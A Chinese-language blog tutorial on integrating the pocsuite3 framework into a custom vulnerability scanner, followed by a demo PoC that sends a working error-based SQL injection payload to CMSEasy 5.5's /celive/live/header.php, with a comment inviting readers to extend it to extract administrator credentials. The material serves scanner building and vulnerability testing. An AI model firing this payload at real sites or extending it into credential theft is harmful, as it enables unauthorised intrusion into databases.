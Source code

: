 # 将pocsuite集成到扫描器里

## 前言
网上关于写基于`pocsuite`相关的`poc`文章很多，但很少有讲把`pocsuite`集成到自身扫描器里面的，虽然命令行界面可以美其名曰`黑客的仪式感`，但扫描器更重要的是考虑将`天堂的门票卖给最多的人`

## pocsuite3的安装
集成到python扫描器里，直接使用pip即可（指定了国内加速镜像）
`pip install pocsuite3 -i https://pypi.tuna.tsinghua.edu.cn/simple`

## 基于demo的修改
知道创宇之前有一个pocsuite的介绍文章[如何打造自己的PoC框架-Pocsuite3-使用篇](https://paper.seebug.org/904)，里面有一个集成的demo：
```python
from pocsuite3.api import init_pocsuite
from pocsuite3.api import start_pocsuite
from pocsuite3.api import get_result
from pocsuite3.api import path
import os

config = {
  'url': 'https://www.baidu.com/',
  'poc': os.path.join(paths.POCSUITE_ROOT_PATH, "../tests/login_demo.py"),
  'username': "asd",
  'password': 'asdss',
  'verbose': 0
}
# config字典的配置和cli命令行参数配置一模一样
init_pocsuite(config)
start_pocsuite()
result = get_results().pop()
print(result)
```

不过这个demo的导入包有点问题
![](https://springbird3.oss-cn-chengdu.aliyuncs.com/lianxiang/20220216221132.png)
修改一下
```python
from pocsuite3.api import get_results
from pocsuite3.api import paths
``` 
然后poc的路径又出现了问题
`'poc': os.path.join(paths.POCSUITE_ROOT_PATH, "../../pocs/test.py")`

这里前面拼接的path是
`C:\Users\Cl0udG0d\.virtualenvs\SZhe_Scan-oUVMoVqK\lib\site-packages\pocsuite3`
我虚拟环境包的位置

使用`os.path.dirname(os.path.dirname(__file__))`修改其为我当前文件的相对位置

`'poc': os.path.join(os.path.dirname(os.path.dirname(__file__)), "../pocs/test.py")`

在`pocs`文件夹下放置所有的poc文件，当需要扫描的时候读取文件夹下的所有POC依次进行扫描即可，当然这个地方也可以使用python的多线程来进行加速了

整个函数为
```python
def scanPoc(url):
    config = {
        'url': url,
        'poc': os.path.join(os.path.dirname(os.path.dirname(__file__)), "../pocs/test.py"),
        'verbose': 0
    }
    print(os.path.dirname(os.path.dirname(__file__)))
    # config字典的配置和cli命令行参数配置一模一样
    init_pocsuite(config)
    start_pocsuite()
    result = get_results().pop()
    print(result)
``` 
最后的`result`就是我们需要处理的返回结果，将其存储到数据库或者进一步操作，类型是`pocsuite`团队自己定义的`AttribDict`字典，通过键值对的方式读取内容

## 一个poc demo 
这里给出一个pocsuite 的 [poc demo](https://blog.csdn.net/weixin_44426869/article/details/103962994)

我们自定义的poc可以在demo上进行修改即可
```python
#导入所写PoC所需要类/文件，尽量不要使用第三方模块。
#迫不得已使用第三方模块有其依赖规则，后面给出。
from pocsuite3.api import Output,POCBase,register_poc,requests
#PoC实现类，继承POCBase
class DemoPoc(POCBase):
	#PoC信息字段，需要完整填写全部下列信息
	vulID = '88979' #漏洞编号，若提交漏洞的同时提交PoC，则写成0
    version = '1'#PoC版本，默认为1
    author = ['blh']#此PoC作者
    vulDate = '2014-11-03'#漏洞公开日期
    createDate = '2020-01-13'#编写PoC日期
    updateDate = '2020-01-13'#更新PoC日期，默认与createDate一样
    references = ['https://www.seebug.org/vuldb/ssvid-88979']#漏洞地址来源，0day不写
    name = 'CMSEasy 5.5 /celive/live/header.php SQL注入漏洞'#PoC名称
    appPowerLink = 'http://www.cmseasy.cn/'#漏洞产商主页
    appName = 'CMSEasy'#漏洞应用名称
    appVersion = '5.5'#漏洞影响版本
    vulType = 'SQL Injection'#漏洞类型
    desc = '''漏洞描述'''#在漏洞描述填写
    samples = []#测试成功网址
    install_requires = []#PoC依赖的第三方模块，尽量不要使用第三方模块，必要时参考后面给出的参考链接
    pocDesc = '''PoC用法描述'''#在PoC用法描述填写
    
 	#编写验证模式
	def  _verify(self):
        #验证代码
        result = {}
        target = self.url + '/celive/live/header.php'
        #此处payload即为post的数据
        payload = {
            'xajax': 'LiveMessage',
            'xajaxargs[0][name]': "1',(SELECT 1 FROM (select count(*),concat("
                                  "floor(rand(0)*2),(select md5(614)))a from "
                                  "information_schema.tables group by a)b),"
                                  "'','','','1','127.0.0.1','2') #"
        }
        # 使用requests发送post请求
        response = requests.post(target,payload)
        #‘851ddf5058cf22df63d3344ad89919cf’为0614的md5值
        if '851ddf5058cf22df63d3344ad89919cf' in str(response.content):
            result['VerifyInfo']={}
            result['VerifyInfo']['URL'] = target
            result['VerifyInfo']['Postdata'] = payload
        return self.parse_output(result)
	#编写攻击模式,此处直接给到验证模式，读者可以自行写出payload，获取管理员账号密码等信息。
	def _attack(self):
        return self._verify()
	#自定义输出函数，调用框架输出的实例Output
	def parse_output(self,result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('target is not vulnerable')
        return output

#注册PoC类，这样框架才知道这是PoC类
register_poc(DemoPoc)
``` 

## END 
 
建了一个微信的安全交流群，欢迎添加我微信备注`进群`，一起来聊天吹水哇，以及一个会发布安全相关内容的公众号，欢迎关注 :)
 
<div>
    <img  alt="GIF" src="https://springbird.oss-cn-beijing.aliyuncs.com/img/mmqrcode1632325540724.png"  width="280px" />
    <img  alt="GIF" src="https://springbird.oss-cn-beijing.aliyuncs.com/img/qrcode_for_gh_cead8e1080d6_344.jpg"  width="280px" />
</div>